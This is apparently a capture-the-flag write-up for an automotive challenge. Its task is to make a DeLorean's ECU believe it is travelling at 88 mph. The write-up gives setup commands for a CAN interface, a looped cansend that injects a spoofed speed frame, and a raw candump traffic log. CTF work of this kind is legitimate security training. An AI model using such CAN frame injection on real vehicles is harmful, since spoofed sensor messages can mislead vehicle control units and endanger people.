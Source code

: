 
## Challenge
Our intelligence suggests that the DeLorean we previously recovered is capable of time travel.
According to the documents in our possession the time travel functionality is activated as soon as a specific ECU within the vehicle maintains a velocity of exactly 88 miles per hour for at least a few seconds. We rely on your CAN bus expertise to trick the time-travel ECU into thinking it is travelling at the right speed; again, the vehicle dashboard we restored should be of use.

Best of luck.

The Dashboard app is available here.

Challenge developed by Argus Cyber Security.

## Basics:
```sh
sudo ip link set can0 type can bitrate 49500 listen-only off
sudo ip link set can0 up
candump -cae can0,0:0,#FFFFFFFF
```

Pinning the speedometer
```sh
while true; do cansend can0 023#00580d0520 ; done
```

## What's wrong:
```
(1520451177.520598) can0 202#004C004A52
(1520451177.562015) can0 023#0020080C10
(1520451177.566454) can0 19A#7110
(1520451177.644743) can0 023#0020080C10
(1520451177.649195) can0 19A#7110
(1520451177.673535) can0 10C#004A0130004C004B
(1520451177.678214) can0 1BF#000C000E000C
(1520451177.682538) can0 012#061E
(1520451177.745651) can0 023#0020080210
(1520451177.750104) can0 19A#7110
(1520451177.846613) can0 023#002007F810
(1520451177.851048) can0 19A#7110
(1520451177.875363) can0 10C#004A0137004B004A
(1520451177.880085) can0 1BF#000C000E000C
(1520451177.884448) can0 012#061E
(1520451177.962667) can0 023#002107EE10
(1520451177.967131) can0 19A#7110
(1520451177.990922) can0 202#004C004A52
(1520451178.050484) can0 023#002107E410
(1520451178.054947) can0 19A#7110
(1520451178.079237) can0 10C#004A0137004A004A
(1520451178.083970) can0 1BF#000C000E000C
(1520451178.088312) can0 012#061E
(1520451178.185709) can0 023#002107DA10
(1520451178.190177) can0 19A#7110
(1520451178.250343) can0 023#002207D010
(1520451178.254788) can0 19A#7110
(1520451178.279106) can0 10C#004A0137004A004B
(1520451178.283809) can0 1BF#000C000E000C
(1520451178.288124) can0 012#061E
(1520451178.385576) can0 023#002207D010
(1520451178.390042) can0 19A#7110
(1520451178.487527) can0 023#002207D010
(1520451178.491964) can0 19A#7110
(1520451178.516274) can0 10C#004B0137004A004C
(1520451178.520970) can0 1BF#000C000E000C
```